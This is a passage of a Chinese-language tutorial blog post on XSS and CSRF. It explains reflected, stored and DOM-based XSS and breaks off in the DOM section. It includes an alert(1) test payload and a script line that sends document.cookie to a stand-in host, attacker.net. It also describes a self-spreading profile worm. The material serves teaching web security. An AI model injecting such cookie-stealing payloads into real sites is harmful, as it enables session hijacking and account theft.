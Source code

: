 ```yaml
---
title: 'XSS 和 CSRF 两种跨站攻击' 
date: 2019-01-30 2:30:23
hidden: true
slug: foopjzqqm5d
categories: [reprint]
---
```


{{< raw >}}

                    
<p>差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。</p>
<p><span class="img-wrap"><img data-src="/img/bVGiYS?w=680&amp;h=447" src="https://static.alili.tech/img/bVGiYS?w=680&amp;h=447" alt="clipboard.png" title="clipboard.png" style="cursor: pointer; display: inline;"></span></p>
<p>非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章<a href="http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/" rel="nofollow noreferrer" target="_blank">SQL 注入详解</a>。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。</p>
<h2 id="articleHeader0">XSS 的分类</h2>
<p>XSS 漏洞有多种形式，分为三类，反射型、保存型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。</p>
<h3 id="articleHeader1">反射型 XSS 漏洞</h3>
<p>前面废话一大堆，还是没有说 XSS 漏洞到底是什么。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。</p>
<p>用户浏览网页时发送错误，向服务器请求 URL，比如<code>www.xxx.com/error.php?message=sorry,an error occurred</code>，然后服务器根据得到的 message，<strong>不进行过滤</strong>，复制到错误页面的模板中：<code>&lt;p&gt;sorry,an error occurred&lt;/p&gt;</code>，返回给用户。</p>
<p>这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。<code>www.xxx.com/error.php?message=&lt;script&gt;alert(1)&lt;/script&gt;</code>，当用户打开错误页面时，就会出现<code>&lt;p&gt;&lt;script&gt;alert(1)&lt;/script&gt;&lt;/p&gt;</code>，弹出一个消息框。</p>
<p>显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。</p>
<p>比如攻击者构造一个这样的 URL，message 信息如下</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="var i = new Image;
i.src=&quot;http://attacker.net/&quot;+document.cookie;" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs dart"><code><span class="hljs-keyword">var</span> i = <span class="hljs-keyword">new</span> Image;
i.src=<span class="hljs-string">"http://attacker.net/"</span>+<span class="hljs-built_in">document</span>.cookie;</code></pre>
<p>这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：</p>
<p><span class="img-wrap"><img data-src="/img/bVGiXL?w=471&amp;h=280" src="https://static.alili.tech/img/bVGiXL?w=471&amp;h=280" alt="clipboard.png" title="clipboard.png" style="cursor: pointer; display: inline;"></span></p>
<p>这个图还有一个重要的点没有标明出来，就是前提是受害者要先登录到 Bank.com 的网站上。</p>
<p>由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。</p>
<h3 id="articleHeader2">保存型 XSS 漏洞</h3>
<p>保存型跨站脚本也是比较常见的漏洞，脚本通常保存在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。</p>
<p>与反射型的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。</p>
<p>与反射型不同的是，保存型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用保存型的漏洞来获取用户 cookie 进行劫持。</p>
<p>还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而保存型的漏洞，受害者一般是先登录，然后访问改站点有危险的页面。</p>
<p>举一个例子，比如某社交论坛存在保存型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。</p>
<h3 id="articleHeader3">基于 DOM 的 XSS 漏洞</h3>
<p>前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。</p>
<ol>
<li><p>用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；</p></li>